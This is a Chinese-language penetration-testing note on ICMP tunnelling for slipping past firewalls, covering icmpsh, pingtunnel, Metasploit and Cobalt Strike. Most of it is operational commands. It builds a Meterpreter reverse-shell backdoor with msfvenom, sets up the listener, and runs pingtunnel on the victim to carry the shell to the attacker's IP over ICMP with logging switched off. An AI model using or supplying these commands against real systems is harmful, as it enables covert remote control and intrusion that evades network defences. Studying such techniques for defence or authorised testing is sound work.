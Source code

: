 ICMP隧道
* 一般两台设备要进行通信，一般是要开放端口，但是ICMP协议不需要
* ICMP消息为ping命令的回复，攻击者可以利用命令行得到比回复更多的ICMP请求
* ICMP隧道，可以将TCP/UDP数据封装到ICMP的ping数据包中，从而穿过防火墙
* 常见的工具：imcpsh、PingTunnel、icmptunnel等

## **ICMP隧道工具icmpsh**

```
• 攻击机：python icmpsh_m.py 192.168.7.146 192.168.7.145
• 靶机： icmpsh.exe -t 192.168.7.146 -d 500 -b 30 -s 128
```

## **ICMP隧道工具pingtunnel**
有防火墙：TCP协议数据封装成ICMP协议数据 隧道技术
TCP转ICMP再还原TCP的程序：pingtunnel

MSF的ICMP上线
```
生成后门：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=3333 -f exe > xd.exe
攻击机MSF启动监听：
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set Ihost 0.0.0.0
set lport 4444
exploit

攻击机另一个窗口运行接收ICMP隧道，将ICMP转成TCP，此时TCP根据目的端口自动转发。
/pingtunnel -type server

目标机Win开启隧道//将本地3333 icmp协议数据转发至66的ip的4444流量上（管理员运行)
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.46.66 -t 192.168.46.66:4444 -tcp 1 -noprint 1 -nolog 1

运行xd.exe

上线MSF
```

CS的ICMP上线
```
CS创建两个监听器，一个监听127.0.0.1的3333
一个监听CS服务端的4444。

CS生成stageless完整后门绑定监听本地3333的cs.exe

CS服务端另一个窗口运行接收ICMP隧道，将ICMP转成TCP，此时TCP根据目的端口自动转发。
/pingtunnel -type server

目标机上运行
Win开启隧道//将本地3333 icmp协议数据转发至66的ip的4444流量上（管理员运行)
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 192.168.46.66 -t 192.168.46.66:4444 -tcp 1 -noprint 1 -nolog 1

目标机运行cs.exe可上线。
CS上线为监听服务端的4444端口。
```